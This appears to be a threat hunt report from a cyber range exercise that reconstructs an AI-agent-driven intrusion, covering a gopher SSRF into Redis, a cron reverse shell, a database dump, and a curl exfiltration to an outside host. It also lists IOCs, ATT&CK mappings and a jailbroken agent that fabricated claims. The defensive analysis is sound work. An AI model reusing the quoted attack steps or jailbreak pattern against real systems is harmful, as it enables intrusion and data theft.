

# Operation QUARTZFANG — Threat Hunt Report (2026)

**Analyst:** Danielle Respes · **Date:** 29 October 2026 · **Platform:** Microsoft Sentinel (KQL) · **Workspace:** LAW-HuntPractice
**Scenario:** SemiCrest Technologies, AI-directed espionage reproducing Anthropic's Campaign C0062 · **Result:** 28 / 28 flags solved

> All hosts, IPs and credentials in this report come from a cyber range exercise. None are real systems.

| Host | IP | Role |
| --- | --- | --- |
| sc-portal01 | 10.5.0.10 | Design portal entry point |
| sc-db01 | 10.5.0.20 | PostgreSQL database |
| sc-registry01 | 10.5.0.30 | Harbor container registry |
| sc-admin01 | 10.5.0.40 | Internal admin platform |

The KQL used for each section is in [`queries.kql`](queries.kql).

## Quick Take

**What happened:** On 20 September 2026 (06:30–08:30 UTC), an AI agent directed by a human operator broke into SemiCrest Technologies through an SSRF flaw in the portal's document preview API. It gained root on sc-portal01, stole service credentials, dumped the PostgreSQL database, enumerated the Harbor registry and admin API, exfiltrated an encrypted archive over HTTPS, and left a sudo-enabled backdoor account (`svc_monitor`). The operation reproduces Anthropic's Campaign C0062.

**What we did:** We traced the full chain across four hosts and nine tables, cross-checked every claim in the recovered attacker agent log against host telemetry, exposed two fabricated claims, identified the human decision gates, and separated the attack from four look-alike noise patterns. All 28 hunt flags were solved.

**What we recommend:** Fix the SSRF and bind Redis to authentication, remove the cron backdoor and `svc_monitor`, rotate the `portal_svc` and `ci-builder` credentials in step with an app config update, block 203.0.113.87 and 198.51.100.0/24, and alert on cron-spawned shells and unparameterised `SELECT *` queries from service accounts.

## Summary

The intrusion ran for about two hours and was driven by an AI agent (`quartzfang-agent`, connected over MCP) that a human operator authorised at four phase boundaries. The agent's safety gate allowed every action under a jailbreak.

At 06:30 three external scanners (198.51.100.31, .45, .62) swept the portal and found `/api/v1/preview`. At 06:44 the exploit host 203.0.113.87 probed the preview URL filter: `http://` and `https://` were allowed, while `ftp://`, `file://` and `dict://` were blocked with 400. After an 8-minute pause it retried `file://` (400 at 06:52:30) and switched to `gopher://` 18 seconds later (200 at 06:52:48). The gopher payload sent raw commands to Redis on 127.0.0.1:6379, which wrote a root cron job. Cron launched a python3 reverse shell (PID 4401) back to 203.0.113.87:443 four seconds later.

From that shell the agent read `/etc/semicrest/portal.conf` at 07:05 and harvested the `portal_svc` database credential and the `ci-builder` Harbor credential. It dumped tables on sc-db01 at 07:16, enumerated the registry at 07:33, and probed the admin API at 07:45, where the secrets endpoint returned 403. It staged and encrypted an archive at 08:02, exfiltrated it to 198.51.100.210:443 at 08:15, and created the backdoor account `svc_monitor` at 08:29.

The agent log mixes accurate findings with fabrications. Its credential harvest, staging and exfiltration claims match telemetry; its claims of extracting Kubernetes secrets and finding a `db_admin` credential do not.

## Attack Timeline

All times UTC, 20 September 2026, in chronological order. Actions inside each phase run seconds apart; phases are separated by 8–17 minute pauses.

| Time | Host | Action | Evidence |
| --- | --- | --- | --- |
| 06:30:00–06:31:52 | sc-portal01 | Recon sweep by 198.51.100.31, .45, .62: 30 requests each to the same 10 paths, `python-requests/2.31.0` | PortalAccessLog_CL |
| 06:44:05–06:44:15 | sc-portal01 | 203.0.113.87 probes the preview URL filter: http/https 200; ftp, file, dict 400 | PortalAccessLog_CL |
| 06:52:30 | sc-portal01 | `file:///etc/passwd` retried, rejected 400 | PortalAccessLog_CL |
| 06:52:48 | sc-portal01 | `gopher://127.0.0.1:6379` SSRF accepted 200; Redis FLUSHALL + SET cron payload | PortalAccessLog_CL |
| 06:52:49 | sc-portal01 | Root cron runs python3 reverse shell to 203.0.113.87:443 | Syslog (CRON) |
| 06:52:52 | sc-portal01 | python3 PID 4401 spawned by cron PID 4400, as root | DeviceProcessEvents_CL |
| 07:05:15 | sc-portal01 | `cat /etc/semicrest/portal.conf` (PID 4410) | DeviceProcessEvents_CL |
| 07:05:21 | sc-portal01 | `env` (PID 4411), output not captured | DeviceProcessEvents_CL |
| 07:05:27 | sc-portal01 | `find / -name *.conf -o -name *.env` (PID 4412) | DeviceProcessEvents_CL |
| 07:16:14–07:16:25 | sc-db01 | `portal_svc` connects with no application_name; `SELECT *` on users, projects, customers, information_schema.tables, pg_shadow | Syslog (postgres) |
| 07:31:09 | — | Operator gate: authorise data collection and admin API enumeration | LLMAgentLogs_CL |
| 07:33:03–07:33:05 | sc-registry01 | `ci-builder` from 10.5.0.10: list_repository, pull_manifest, inspect_layer on semicrest/portal-build | ContainerRegistryLog_CL |
| 07:45:27–07:45:32 | sc-admin01 | `portal_svc`: /services 200, /topology 200, /secrets **403** | Syslog (admin_api) |
| 07:48:31 | — | Operator gates: authorise staging, then exfiltration | LLMAgentLogs_CL |
| 08:02:05–08:02:13 | sc-portal01 | tar, gzip, openssl AES-256-CBC in `/tmp/.portal-cache/` | DeviceProcessEvents_CL |
| 08:15:00 | sc-portal01 | `curl -X POST https://198.51.100.210:443/upload` with header `X-Session: qf-c062-9e4a` | DeviceProcessEvents_CL, DeviceNetworkEvents_CL |
| 08:29:35–08:29:55 | sc-portal01 | `useradd svc_monitor`, `usermod -aG sudo`, `ssh-keygen -t ed25519 -N ''` | DeviceProcessEvents_CL |

## Analysis

### 1. Initial access (06:44–06:52)

The vulnerable endpoint was `/api/v1/preview`, which fetches any URL passed in its `url` parameter. Its filter blocked `ftp://`, `file://` and `dict://` but not `gopher://`. After `file://` was rejected (400 at 06:52:30), the attacker switched to `gopher://` and was accepted 18 seconds later (200 at 06:52:48).

The gopher payload sent raw RESP commands to the local Redis on 127.0.0.1:6379: `FLUSHALL`, then `SET` a key holding a `*/1` cron line. Redis wrote it into root's crontab. Cron ran a python3 reverse shell to 203.0.113.87:443 at 06:52:49, and EDR shows python3 PID 4401 spawned by cron PID 4400 as root at 06:52:52. **Chain:** gopher SSRF → Redis cron write → cron → python3 reverse shell.

### 2. Credential harvest (07:05)

All three commands were children of python3 PID 4401, six seconds apart: `cat /etc/semicrest/portal.conf`, `env`, then a filesystem-wide `find` for config and `.env` files. The config contents appear only in the agent log's `harvest_creds` record:

- `portal_svc` / `Pr0jectAur0ra!` → PostgreSQL on 10.5.0.20 (sc-db01)
- `ci-builder` / `H4rb0rBu1ld!` → Harbor on 10.5.0.30 (sc-registry01)
- Admin API URL `https://10.5.0.40:8443/api/v1` (no credential)

Both credentials were later proven real by successful logins in host telemetry.

### 3. Lateral movement (07:16–07:45)

**sc-db01.** The same account and source IP (10.5.0.10) are used by the application, so the username is not the discriminator. The attacker's queries differ in structure (unparameterised `SELECT *` with no WHERE clause, versus the app's `$1` templates), targets (`information_schema.tables` and `pg_catalog.pg_shadow`, which the app never touches, plus bulk `customers`) and cadence (5 queries in 9 seconds). The attacker's connection also lacked `application_name=portal_svc`.

**sc-registry01.** In the lead-in, `ci-builder` only ran `pull_artifact` and `push_artifact` from the CI server 10.5.0.100. From 10.5.0.10 it ran `login`, `list_repository`, `pull_manifest` and `inspect_layer` on `semicrest/portal-build`, all 200.

**sc-admin01.** As `portal_svc`, the attacker read `/api/v1/services` and `/api/v1/topology` (200) but was denied `/api/v1/secrets` with **403 Forbidden**. Legitimate admins `a.patel` (10.5.0.101) and `j.bergstrom` (10.5.0.100) received 200 on the same endpoint.

### 4. Exfiltration (08:02–08:15)

Data collected in `/tmp/.portal-cache/data/` was archived with `tar`, compressed with `gzip` and encrypted with `openssl enc -aes-256-cbc` into `/tmp/.portal-cache/report.tar.gz.enc` in 8 seconds. At 08:15 `curl` posted it to `https://198.51.100.210:443/upload`. The connection came from PID 4401, the only external connection from that process to an address never seen before. Legitimate HTTPS on the same port came from short-lived app workers going to four recurring cloud endpoints. The `X-Session: qf-c062-9e4a` header matches the agent's session ID.

### 5. Persistence (08:29)

The attacker created `svc_monitor` with a bash shell, added it to the `sudo` group, and generated a passphrase-less ed25519 key in `/home/svc_monitor/.ssh/`. This is the "account nobody created" from the briefing.

## AI Agent: Claims vs Telemetry

This was a person who set a machine going: a human-directed AI agent. The operator's directives sit in `LLMAgentLogs_CL.user_input`, while `DeviceProcessEvents_CL.Timestamp` shows execution at machine speed. The ATT&CK technique for the novel aspect is **T1588.007 Obtain Capabilities: Artificial Intelligence**.

### Claims checked against host evidence

| Agent claim (`model_response`) | Host telemetry | Verdict |
| --- | --- | --- |
| `portal.conf` held `portal_svc` and `ci-builder` credentials | `portal_svc` connected to sc-db01; `ci-builder` logged in to Harbor | Accurate |
| Dumped users, projects, customers, `pg_catalog` | `SELECT *` burst at 07:16 in sc-db01 Syslog | Accurate |
| Found `db_admin` / `Sup3rS3cure!` in the `semicrest/portal-build` image layer | Registry shows only metadata operations; `db_admin` never authenticated to sc-db01 | **Fabricated** |
| Extracted Kubernetes secrets, TLS certs and API keys from sc-admin01 | `/api/v1/secrets` returned **403 Forbidden** at 07:45:32, three minutes before the claim | **Fabricated** |
| Staged and encrypted `report.tar.gz.enc`, exfiltrated to 198.51.100.210:443 | tar, gzip, openssl at 08:02; curl POST at 08:15 | Accurate |
| Created `svc_monitor` with sudo and an SSH key | useradd, usermod, ssh-keygen at 08:29 | Accurate |

In the secrets case even the agent's `tool_result` reported success, so only host telemetry is authoritative.

### Human decision gates

The log holds four operator directives, one at each strategic boundary:

1. **06:31 recon → exploitation:** initial tasking; the agent recommends exploiting the preview endpoint.
2. **07:31 lateral movement → data collection:** "Authorise data collection from database tables and admin API enumeration." This came right after the fabricated `db_admin` claim, which the operator did not catch.
3. **07:48 collection → staging:** "Confirm target coverage and authorise documentation and staging."
4. **07:48 staging → exfiltration:** "Authorise documentation and exfiltration." Gates 3 and 4 were logged 0.4 seconds apart.

Everything between gates ran autonomously: exploitation, credential harvest, database dump, staging, exfiltration and persistence.

### Timing signature

A human operator works at a steady, slower tempo with variable minute-scale gaps between commands. This chain shows the opposite: bursts of commands 1–6 seconds apart inside each phase, separated by 8–17 minute idle gaps at the phase boundaries where the operator approved the next step.

### What the hallucinations mean

The agent cannot tell its own success from failure, so its output is unreliable. Acting on a fabricated credential would waste effort and generate failed logins that defenders could detect. That is why a human must validate findings at each phase, and why this campaign could not run fully autonomously. Anthropic's C0062 report notes the same limitation.

## Real or Noise

One look-alike pattern was real attack activity; the others were baseline.

| Pattern | Verdict | How we know |
| --- | --- | --- |
| `portal_svc` used on sc-portal01, sc-db01 and sc-admin01 | **Real** (attacker reusing a shared credential) | Attacker sessions originate from the cron-spawned root shell PID 4401; app sessions from gunicorn workers as www-data. App DB connections carry `application_name=portal_svc`; the attacker's do not. Revoking the credential outright would break the app. |
| Nightly `pg_dump` as `portal_svc` | Noise (scheduled backup) | Runs at ~02:59 every night in the 48-hour lead-in with the same command, `backup` account, `-h localhost` and `application_name=pg_dump`. The 20 Sept run predates the exploit by nearly 4 hours and the credential theft at 07:05. |
| PostgreSQL connection spike 07:29–07:39 | Noise (connection pool exhaustion) | Only `connection received` and `FATAL: remaining connection slots are reserved…` lines; no authentication and no queries. Normal app queries continue in between. |
| Internal scanner 10.5.0.250 | Noise (scheduled Nessus scan) | Self-identifying `Nessus/10.6.2` user agent, two generic paths 15 minutes apart. The external recon used `python-requests/2.31.0` (same as the exploit host), the same 10 high-value paths per IP, and 30 requests in ~30 seconds. |
| `semicrest-assistant` agent rows | Noise (internal helper bot) | 359 rows of routine tasks (reviews, pipelines) with destructive actions denied by policy; the attacker is `quartzfang-agent`, 15 rows. |
| apt, certbot, tmp cleanup, gunicorn restarts | Noise (routine system activity) | Recurring timers and service restarts with no link to PID 4401. |

## IOCs and MITRE ATT&CK

### Indicators of compromise

| Type | Indicator | Role |
| --- | --- | --- |
| IP | 203.0.113.87 | Exploit source and reverse-shell C2 (443) |
| IP | 198.51.100.210:443 | Exfiltration server (`/upload`) |
| IP | 198.51.100.31, 198.51.100.45, 198.51.100.62 | External recon scanners (same /24 as the exfil server) |
| URL | `/api/v1/preview?url=gopher://127.0.0.1:6379/...` | SSRF payload |
| User agent | `python-requests/2.31.0` | Shared by recon scanners and the exploit host |
| Process | python3 PID 4401, parent cron PID 4400, root | Reverse shell |
| File | `/etc/semicrest/portal.conf` | Credential source |
| Path | `/tmp/.portal-cache/` (`data/`, `report.tar.gz.enc`) | Staging directory |
| Header | `X-Session: qf-c062-9e4a` | Ties exfil to the agent session |
| Account | `svc_monitor` (sudo, `/home/svc_monitor/.ssh/id_ed25519`) | Persistence |
| Credential | `portal_svc` (PostgreSQL), `ci-builder` (Harbor) | Stolen, must be rotated |
| Agent | `quartzfang-agent`, session `qf-c062-9e4a`, via MCP | Attacker AI agent |

### Techniques mapped in the case file

| ID | Technique | Where seen |
| --- | --- | --- |
| T1595.001 | Active Scanning: Scanning IP Blocks | 06:30 recon sweep |
| T1190 | Exploit Public-Facing Application | gopher SSRF in `/api/v1/preview` |
| T1552 | Unsecured Credentials | `env` and `find` credential hunting |
| T1552.001 | Unsecured Credentials: Credentials In Files | `portal.conf` |
| T1213.006 | Data from Information Repositories: Databases | `SELECT *` dump on sc-db01 |
| T1082 | System Information Discovery | Admin API `/services`, `/topology` |
| T1046 | Network Service Discovery | Registry and service enumeration |
| T1560.001 | Archive Collected Data: Archive via Utility | tar, gzip, openssl |
| T1567 | Exfiltration Over Web Service | HTTPS POST to 198.51.100.210 |
| T1136.001 | Create Account: Local Account | `svc_monitor` |
| T1588.007 | Obtain Capabilities: Artificial Intelligence | AI agent as execution engine |

The Redis-written cron job also fits T1053.003 (Scheduled Task/Job: Cron), which the case file did not map.

## Visibility Gaps

These questions cannot be answered from the available telemetry.

- **`env` output (07:05:21, PID 4411).** Whether the environment variables held more credentials cannot be determined. Process telemetry records command lines, not stdout, and unlike the config file, no `LLMAgentLogs_CL.tool_result` records the `env` output.
- **File reads.** `DeviceFileEvents_CL` logged the `portal.conf` access as `FileModified`; pure reads are not recorded reliably, so the process event is the stronger evidence.
- **Shell child process.** The `/bin/sh -i` that the reverse shell should have spawned does not appear in process events.
- **Exfiltrated content and key.** The archive was encrypted with a random key (`openssl rand -hex 32`) that was never logged, so neither its contents nor whether the attacker can decrypt it can be confirmed.
- **Image contents.** The registry log records operations only, not what an inspected layer contained.
- **SSH key use.** A key was generated for `svc_monitor`, but no `authorized_keys` write or key export was observed.
- **Timestamps and duplicates.** Agent and registry logs were ingested with October dates (use `OriginalTime` or the time of day), and many rows are duplicated, so counts need de-duplication.

## Recommendations

1. **Contain sc-portal01.** Kill python3 PID 4401, remove the Redis-written entry from root's crontab, and delete `svc_monitor` with its home directory and SSH keys. Delete `/tmp/.portal-cache/`.
2. **Fix the entry point.** Change `/api/v1/preview` to an allowlist of `http`/`https` only and block requests to loopback and internal ranges. Require authentication on Redis and stop it listening for commands from the web app.
3. **Rotate credentials without breaking the app.** Rotate `portal_svc` and `ci-builder` together with the config update in `portal.conf`, rather than revoking `portal_svc` outright. Move secrets out of the plaintext config into a secrets store.
4. **Block attacker infrastructure.** Block 203.0.113.87 and 198.51.100.0/24 at the perimeter, and search other hosts for the `python-requests/2.31.0` agent and the `X-Session: qf-c062-9e4a` header.
5. **Assess the data loss.** Treat the `users` (including password hashes), `projects` and `customers` tables and the `pg_shadow` hashes as exposed. Reset affected passwords and notify per policy.
6. **Add detections.** Alert on cron spawning interpreters as root, on service accounts sending unparameterised `SELECT *` or querying `pg_shadow`/`information_schema`, on `ci-builder` activity from any source other than 10.5.0.100, and on new sudo-group accounts.
7. **Close visibility gaps.** Capture shell command output or audit logging for privileged sessions, log file reads on sensitive configs, and fix duplicate ingestion and timestamp mapping in the custom tables.
8. **Review AI-agent risk.** Treat agent logs as untrusted narrative and verify every claim against host telemetry; monitor for machine-speed command bursts separated by idle gaps.

## References

- Anthropic Threat Intelligence, Campaign C0062 report (November 2025)
- [MITRE ATT&CK T1588.007: Obtain Capabilities: Artificial Intelligence](https://attack.mitre.org/techniques/T1588/007/)
